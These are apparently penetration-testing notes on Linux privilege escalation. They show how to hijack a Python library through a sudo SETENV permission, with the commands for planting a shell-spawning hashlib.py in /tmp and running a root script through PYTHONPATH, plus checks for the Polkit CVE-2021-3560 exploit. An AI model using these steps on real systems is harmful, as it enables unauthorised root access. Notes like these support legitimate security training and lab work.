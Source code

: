 ## Python Library Hijacking

* <img src="https://user-images.githubusercontent.com/75596877/170289480-53b814c0-636e-43bd-a0aa-156887408305.PNG" alt="setenv" data-size="original">
* From `sudo -l` output we see `SETENV` (means we can set the env variables when it is run as root) in addition to the python script that can be run as root
* <img src="https://user-images.githubusercontent.com/75596877/170289844-1d33fa11-e247-4004-8e04-e66668d03e80.PNG" alt="hashlib" data-size="original">
* We see the `import hashlib` statement at the top, can hijack the library
* Python will look in the current directory or a specified path that we list due to the `SETENV` permission.
* The paths that come configured out of the box on Ubuntu 16.04, in order of priority, are:
* Directory of the script being executed

```
/usr/lib/python2.7
/usr/lib/python2.7/plat-x86_64-linux-gnu
/usr/lib/python2.7/lib-tk
/usr/lib/python2.7/lib-old
/usr/lib/python2.7/lib-dynload
/usr/local/lib/python2.7/dist-packages
/usr/lib/python2.7/dist-packages
```

* For other distributions, run the command below to get an ordered list of directories:

```
python -c 'import sys; print "\n".join(sys.path)'
```

* Can also use `locate hashlib.py` to figure out where the library is being executed from
* Once the libary is located
* Copy the `hashlib.py` file to `/tmp or /dev/shm`
* Can either try adding a python reverse shell to the file or:

```
python -c 'import os; os.system("/bin/sh")'
python3 -c 'import os; os.system("/bin/sh")'
```

* To conduct the priv esc now run:

```
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py
```

### Manual Polkit Priv Esc Checks

* POC:&#x20;
* [https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)
* Target needs to have `accountservice` and `gnome-control-center` installed&#x20;

```
#centos/fed/rhel
rpm -qa accountservice
rpm -qa gnome-control-center
#deb/ubu
dpkg -l | grep accountservice
dpkg -l | grep gnome-control-center
```
